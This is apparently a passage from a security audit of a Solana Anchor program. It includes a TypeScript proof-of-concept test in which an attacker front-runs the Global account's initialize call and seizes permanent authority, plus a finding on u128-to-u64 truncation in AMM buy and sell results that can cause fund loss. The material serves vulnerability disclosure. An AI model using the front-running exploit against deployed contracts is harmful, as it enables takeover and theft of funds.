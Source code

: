 By enforcing a specific address (or seed) as the required “initialization authority,” only the legitimate deployer can successfully initialize the `Global` account.

### Proof of Concept (TypeScript Test)
This excerpt demonstrates how any user - if quick enough - can front-run the call:

```ts
it("Attacker front-runs the global initialize", async () => {
  const attacker = anchor.web3.Keypair.generate();
  await fundAccountSOL(connection, attacker.publicKey, 69 * LAMPORTS_PER_SOL);

  // Attacker calls initialize first
  await program.methods
    .initialize()
    .accounts({ authority: attacker.publicKey })
    .signers([attacker])
    .rpc();

  // Confirm the attacker is now the authority
  const globalAccount = await program.account.global.fetch(globalPDA);
  assert.equal(globalAccount.authority.toBase58(), attacker.publicKey.toBase58());

  // The legitimate authority then attempts initialize and fails
  let didFail = false;
  try {
    await program.methods
      .initialize()
      .accounts({ authority: legitimateAuthority.publicKey })
      .signers([legitimateAuthority])
      .rpc();
  } catch (err) {
    didFail = true;
  }
  assert.isTrue(didFail, "Real deployer should fail because it's already initialized");

  // The attacker is now permanently in control.
});
```

---

## [M-02] Truncation of `u128` to `u64` leads to significant Fund Loss

### Description

In the `amm.rs` module, there is a mismatch between the `u128` fields inside the `AMM` struct and the `u64` fields in the accompanying `BuyResult` and `SellResult` structs. While the AMM calculations use `u128` (supporting very large values for reserves), these values are **unconditionally** truncated to `u64` in the returned buy and sell results, causing a potential overflow scenario.

When `virtual_sol_reserves` or `virtual_token_reserves` exceed `u64::MAX`, a perfectly valid `u128` calculation can yield results beyond the 64-bit range. This large result then gets coerced into `u64`, silently dropping high-order bits. The actual token or SOL amount from a trade can be drastically reduced from, e.g., **18'446'744'073'709'552'616** down to **1000**. This discrepancy effectively breaks the intended pricing logic and could severely devalue tokens.
